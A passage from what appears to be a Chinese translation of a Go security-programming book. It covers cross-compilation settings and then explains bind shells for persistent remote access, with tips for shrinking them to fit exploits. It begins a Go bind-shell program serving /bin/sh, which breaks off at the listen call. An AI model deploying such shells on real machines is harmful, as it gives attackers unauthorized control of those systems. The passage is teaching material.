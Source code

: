 请注意，并非每种架构都可以与每种操作系统一起使用。请参考 Go 官方文档([`golang.org/doc/install/source#environment`](https://golang.org/doc/install/source#environment))，了解可以组合哪些架构和操作系统。

如果你的目标是 ARM 平台，你可以通过设置`GOARM`环境变量来指定 ARM 版本。系统会自动选择一个合理的默认值，建议你不要更改。在撰写本文时，可能的`GOARM`值为`5`、`6`和`7`。

在 Windows 中，在命令提示符中设置环境变量，如下所示：

```go
Set GOOS=linux
Set GOARCH=amd64
go build myapp
```

在 Linux/Mac 中，你也可以以多种方式设置环境变量，但你可以像这样为单个构建命令指定它：

```go
GOOS=windows GOARCH=amd64 go build mypackage  
```

在[`golang.org/doc/install/source#environment`](https://golang.org/doc/install/source#environment)了解更多关于环境变量和交叉编译的内容。

这种交叉编译方法是在 Go 1.5 中引入的。在那之前，Go 开发人员提供了一个 shell 脚本，但现在不再支持，它被存档在[`github.com/davecheney/golang-crosscompile/tree/archive`](https://github.com/davecheney/golang-crosscompile/tree/archive)。

# 创建绑定 shell

绑定 shell 是绑定到端口并监听连接并提供 shell 的程序。每当收到连接时，它运行一个 shell，比如 Bash，并将标准输入、输出和错误处理传递给远程连接。它可以永久监听并为多个传入连接提供 shell。

绑定 shell 在你想要为机器添加持久访问时非常有用。你可以运行绑定 shell，然后断开连接，或者通过远程代码执行漏洞将绑定 shell 注入内存。

绑定 shell 的最大问题是防火墙和 NAT 路由可能会阻止直接远程访问计算机。传入连接通常会被阻止或以一种阻止连接到绑定 shell 的方式路由。因此，通常使用反向绑定 shell。下一节将介绍反向绑定 shell。

在 Windows 上编译这个示例，结果为 1,186 字节。考虑到一些用 C/Assembly 编写的 shell 可能不到 100 字节，这可能被认为是相对较大的。如果你要利用一个应用程序，你可能只有非常有限的空间来注入绑定 shell。你可以通过省略`log`包、删除可选的命令行参数和忽略错误来使示例更小。

可以使用 TLS 来替代明文，方法是用`tls.Listen()`替换`net.Listen()`。第六章，*密码学*，有一个 TLS 客户端和服务器的示例。

接口是 Go 语言的一个强大特性，这里通过读取器和写入器接口展示了它的便利性。满足读取器和写入器接口的唯一要求是分别为该类型实现`.Read()`和`.Write()`函数。在这里，网络连接实现了`Read()`和`Write()`函数，`exec.Command`也是如此。由于它们实现的共享接口，我们可以轻松地将读取器和写入器接口绑定在一起。

在下一个示例中，我们将看看如何为 Linux 创建一个使用内置的`/bin/sh` shell 的绑定 shell。它将绑定并监听连接，为任何连接提供 shell：

```go
// Call back to a remote server and open a shell session
package main

import (
   "fmt"
   "log"
   "net"
   "os"
   "os/exec"
)

var shell = "/bin/sh"

func main() {
   // Handle command line arguments
   if len(os.Args) != 2 {
      fmt.Println("Usage: " + os.Args[0] + " <bindAddress>")
      fmt.Println("Example: " + os.Args[0] + " 0.0.0.0:9999")
      os.Exit(1)
   }

   // Bind socket
   listener, err := net.Listen("tcp", os.Args[1])
   if err != nil {
```